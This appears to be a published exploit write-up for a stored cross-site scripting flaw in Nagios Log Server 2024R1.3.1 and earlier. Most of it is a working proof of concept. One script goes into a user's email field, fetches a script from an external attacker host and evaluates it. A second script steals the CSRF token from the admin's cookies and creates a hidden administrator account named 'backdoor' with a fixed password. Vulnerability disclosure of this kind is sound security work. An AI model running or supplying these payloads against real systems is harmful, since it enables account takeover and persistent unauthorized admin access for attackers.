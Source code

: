 ## Stored XSS Vulnerability in Nagios Log Server (Privilege Escalation to Admin)
### Date: 2025-04-02
### Exploit Author: Seth Kraft
### Vendor Homepage: https://www.nagios.com/
### Vendor Changelog: https://www.nagios.com/changelog/#log-server
### Software Link: https://www.nagios.com/products/log-server/download/
### Version: 2024R1.3.1 and below
### Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
### CWE: CWE-79, CWE-352, CWE-285, CWE-269, CWE-602
### CVSS: 9.3 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:R/S:C/VC:H/VI:H/VA:H)
### Type: Stored Cross-Site Scripting (XSS), Privilege Escalation
### Exploit Risk: Critical

## Disclosure
For research and authorized testing only. Do not use against systems without permission.

## Description:
A stored XSS vulnerability in Nagios Log Server 2024R1.3.1 allows a low-privileged user to inject
malicious JavaScript into the 'email' field of their profile. When an administrator views the audit logs,
the script executes, resulting in privilege escalation via unauthorized admin account creation.
The vulnerability can be chained to achieve remote code execution (RCE) in certain configurations.

## PoC

1. Log in as a standard (non-admin) user.
2. Navigate to the profile update endpoint:

   `http://<target-ip>/nagioslogserver/profile/update`

3. Inject the following payload into the email field:

```javascript
<script>
fetch("https://<EXTERNAL-HOST>/xss.js")
  .then(response => response.text())
  .then(scriptText => eval(scriptText))
  .catch(console.error);
</script>
```

4. Host the xss.js payload on your external server with the following content:

```javascript
(function() {
  var csrfTokenMatch = document.cookie.match(/csrf_ls=([^;]+)/);
  if (!csrfTokenMatch) return;
  var csrfToken = encodeURIComponent(csrfTokenMatch[1]);

  var requestBody = "csrf_ls=" + csrfToken +
    "&name=backdoor" +
    "&email=hacker@example.com" +
    "&username=backdoor" +
    "&password=Password123!" +
    "&password2=Password123!" +
    "&auth_type=admin" +
    "&apiaccess=1" +
    "&language=en_US" +
    "&account_type=local";

  fetch("http://<target-ip>/nagioslogserver/admin/users/create", {
    method: "POST",
    headers: { "Content-Type": "application/x-www-form-urlencoded" },
    body: requestBody
  })
  .then(response => response.text())
  .then(console.log)
  .catch(console.error);
})();
```

5. Wait for an administrator to view the audit logs. The JavaScript will execute, creating a new admin account:

Username: backdoor
Password: Password123!
            
